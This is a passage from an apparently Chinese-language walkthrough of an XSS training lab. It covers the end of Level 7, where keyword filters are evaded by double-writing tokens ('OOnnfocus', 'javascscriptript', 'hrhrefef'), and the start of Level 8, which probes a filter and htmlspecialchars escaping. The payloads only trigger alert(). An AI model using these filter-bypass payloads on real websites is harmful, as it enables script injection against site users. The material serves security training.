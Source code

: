 我们先上关键词看看

```xml
" Onfocus <ScRipt> <a Href=javascript:alert()>
```

能发现返回值是



<img src="https://i-blog.csdnimg.cn/blog_migrate/c21015f513788f1979c9776987a8a0c1.png" alt="" style="max-height:66px; box-sizing:content-box;" />


```xml
" focus <> <a =java:alert()>
```

全部替换为空了

这里我们使用

### 双写绕过

开始构造

```xml
" OOnnfocus=javascscriptript:alert() "
 
"> <a hrhrefef=javascscriptript:alert()>xx</a> <"
```

## Level8   【a href标签自动url解码】

更新一下 关键词

```xml
" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()>
```

看看过滤了啥



<img src="https://i-blog.csdnimg.cn/blog_migrate/2b81f27e3b8ce271d9a853d31d99edab.png" alt="" style="max-height:197px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/b211f0e268f35711903edf19038ceaed.png" alt="" style="max-height:225px; box-sizing:content-box;" />


这里为什么我们无法直接通过input来xss 因为存在 htmlspecialchars函数 会吧我们输入的内容

直接作为字符串输出



<img src="https://i-blog.csdnimg.cn/blog_migrate/7435e3a6cffbaba3f341a9e2cfb8d35d.png" alt="" style="max-height:109px; box-sizing:content-box;" />


引号被过滤了 无法实现闭合

